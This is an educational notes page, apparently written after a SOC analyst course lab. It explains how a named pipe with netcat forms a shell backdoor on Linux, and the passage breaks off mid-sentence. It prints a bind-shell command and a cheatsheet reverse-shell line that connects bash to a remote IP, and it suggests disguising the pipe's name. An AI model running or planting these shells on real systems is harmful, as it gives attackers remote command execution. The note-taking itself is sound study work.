 ```yaml
---
{"dg-publish":true,"permalink":"/tool-deep-dives/linux/named-pipe/"}
---
```


During the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/BHIS SOCC Notes Overview\|BHIS SOC Analyst Core]] course I took recently, the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-LinuxCLI\|Linux Lab]] had an interesting command where you create a FIFO (First in, First out) "backpipe" with `mknod` (create filesystem node) and `netcat`, effectively creating a shell [[Definitions and Topics/backdoor\|backdoor]] on a [[Tool Deep-Dives/Linux\|Linux]] system.

```Bash
mknod backpipe p
/bin/bash 0<backpipe | nc -l 2222 1>backpipe
```


Basically, `mknod <string> p` creates a named *pipe* (specified by the `p`) called "backpipe" (though it could functionally be named anything that doesn't conflict with other things; for example in the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-tcpdump#Bonus Lab\|tcpdump Bonus Lab]], one could name it *timesync.svc* or something similar to make it less obvious). This *Named Pipe* allows us to pipe an output *from* any location in the shell *to* any location in the shell.
![ThinkingWithPortals.gif|300](/img/user/Attachments/ThinkingWithPortals.gif)

Additionally, `>` and `<` can be used to redirect input in a script; for example, if we ran `./FiscalReport.sh < 2024Q1.csv`, the `FiscalReport` shell script would input the values from `2024Q1.csv`. 

Let's break backpipe command down and see what's going on.
1. `mknod backpipe p`
	1. Creates a named pipe called "backpipe"
2. `/bin/bash 0<backpipe`
	1. `/bin/bash` reads its [[Tool Deep-Dives/Linux/Linux Data Streams\|standard input]] (`stdin`, file descriptor `0`) from the "backpipe"
		2. `backpipe`'s output becomes `/bin/bash`'s input
3. `|`
	1. The output from the prior command is pipe into the following command
4. `nc -l 2222 1>backpipe`
	1. Netcat listens to port *2222* and the [[Tool Deep-Dives/Linux/Linux Data Streams\|standard output]] (`stdout`, file descriptor `1`) is sent into the named pipe "backpipe"

**To summarize,** this forms a loop; *Netcat* listens for data on port *2222*, sends it to the *backpipe*. The *backpipe* sends the output to *Bash*'s input, and *Bash*'s output gets piped to *Netcat*. 


![nyow-youre-thinking-with-portals-e1303609354625.jpg](/img/user/Attachments/nyow-youre-thinking-with-portals-e1303609354625.jpg)

This is a [[Definitions and Topics/Remote Shell\|Reverse Shell]], allowing an attacker to execute shell commands on a remote system.

[Reverse shell cheatsheet](https://saucer-man.com/reverse/) has a similar command, which I've pasted below:

`mknod backpipe p && nc 10.10.10.10 4444 0<backpipe | /bin/bash 1>backpipe`

This is all pretty wild, but what else can we do with a backpipe? Like what we